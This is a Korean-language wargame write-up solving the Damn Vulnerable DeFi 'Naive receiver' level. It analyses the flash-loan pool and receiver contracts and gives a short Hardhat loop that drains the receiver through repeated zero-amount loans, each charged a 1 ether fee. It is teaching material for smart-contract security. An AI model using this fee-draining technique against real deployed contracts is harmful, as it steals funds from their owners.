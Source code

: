 ```yaml
---
title: "DamnVulnerableDefi Naive receiver 풀이"
author: Grizzly
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - NaiveReceiver

sitemap :
changefreq : daily
priority : 1.0
# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정
---
```


## Overview
`Unstoppable`에 이은 Damn Vulnerable Defi 워게임의 2번째 문제이다. 
(하지만, 여느 워게임이 그렇듯 문제간 연관성은 없다;P)

첫 번째 문제에 서술되어 있듯이, 이 워게임에서 제공되는 문제들은 `Solidity`로 작성된 스마트 컨트랙트 파일(들)과 `Javascript`로 작성된 익스플로잇 코드 템플릿을 제공한다. 익스플로잇 코드 템플릿은 `Hardhat`과 `Waffle` 프레임워크로 작성되어 크게 템플릿 코드가 크게 `before`, `it`, `after`로 구분된다. `before` 파트는 문제의 스마트 컨트랙트를 배포하고 초기 자본(?) 설정 등과 같은 초기화를 담당한다. `it` 파트에는 스마트 컨트랙트를 익스플로잇하기 위한 코드가 위치하며, 플레이어가 작성할 수 있도록 비워져있다. 마지막으로, `after` 파트에는 문제의 달성 조건이 작성되어있다. 

워게임 플레이어는 스마트 컨트랙트와 익스플로잇 코드의 after 파트를 확인해서, 문제의 방향을 확인해야 한다.
(물론, 워게임 [사이트](https://www.damnvulnerabledefi.xyz/)에도 글로 잘 작성되어 있다.)

본론으로 들어가서, 이 문제에서는 2개의 스마트 컨트랙트(`FlashLoanReceiver.sol`, `NaiveReceiverLenderPool.sol`)가 주어진다. `NaiveRecevierLenderPool`은 flashLoan 서비스를 제공하는 컨트랙트이고, 초기 자본 `1000 ether`를 가지고 있다. `FlashLoanReceiver`는 대출을 받는 컨트랙트이고, 초기 자본 `10 ehter`를 가지고 있다. 이 문제의 목표는 ***flashLoan 서비스를 통해 `NaiveReceiverLenderPool`이 `FlashLoanReceiver`가 가진 `10 ether`를 모두 가져가게 만드는 것이 목표다.***

## 컨트랙트 분석
사실 분석이라고 할 것까지도 없는 민망한 컨트랙트이지만, 제공된 2개의 컨트랙트의 기능을 확인해본다.

### NaiveReceiverLenderPool

```Solidity
    ...
    function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
    ...
```
가장 중요한 `flashLoan` 함수만 보면, 
1. 대출자의 주소(`borrower`)와 대출금액(`borrowAmount`)을 매개변수로 전달받아, 
2. 대출 전 잔액인 `balanceBefore`가 `borrowAmount`보다 크면, 
3. `borrower`(컨트랙트)의 `receiveEther` 함수를 호출한다. 
4. `receiveEther` 함수 호출시, 고정 수수료(`FIXED_FEE`)를 매개변수로 전달하고, trasaction value로 `borrowAmount`를 전달한다. 
5. 마지막으로, 상환된 금액을 체크한다. 
   
전체 컨트랙트 코드를 보면 알 수 있자만, `FIXED_FEE`는 `1 ether`로 설정되어 있다.

### FlashLoanReceiver

```Solidity
    ...
    // Function called by the pool during flash loan
    function receiveEther(uint256 fee) public payable {
        require(msg.sender == pool, "Sender must be pool");

        uint256 amountToBeRepaid = msg.value + fee;

        require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
        _executeActionDuringFlashLoan();
        
        // Return funds to pool
        pool.sendValue(amountToBeRepaid);
    }
    ...
```
여기에서도 `receiveEther` 함수만 살펴본다. 
1. 이 함수는 수수료(`fee`)를 매개변수로 전달받아, 
2. `msg.sender`가 `NaiveReceiverLenderPool` 컨트랙트인지 확인한다. 
3. 상환 금액인 `amountToBeRepaid`을 `msg.value`와 `fee`의 합으로 계산하고,
4. `amountToBeRepaid`가 현재 잔액 이하인 경우,
5. 대출금을 사용하는 `_executeActionDuringFlashLaon` 함수를 실행하고 (이 문제에서는 아무런 동작도 하지 않음),
6. `amountToBeRepaid`만큼 `NaiveReceiverLenderPool`에 상환한다.

## Solution
이 문제는 너무 쉬워서 풀이라 할 것도 없다... `FlashLoanReceiver`가 얼마를 대출하던 항상 수수료로 `1 ether`가 지출되기 떄문에 대출금을 `0`으로 설정하고 `flashLoan` 함수를 `10`번 호출하면, `FlashLoanReceiver`의 자본 `10 ether`를 모두 소진하게 된다.

```Javascript
    ...
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        for (var i = 0;i < 10;++i) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address, 0);
        }
    });
    ...
```

***EZ***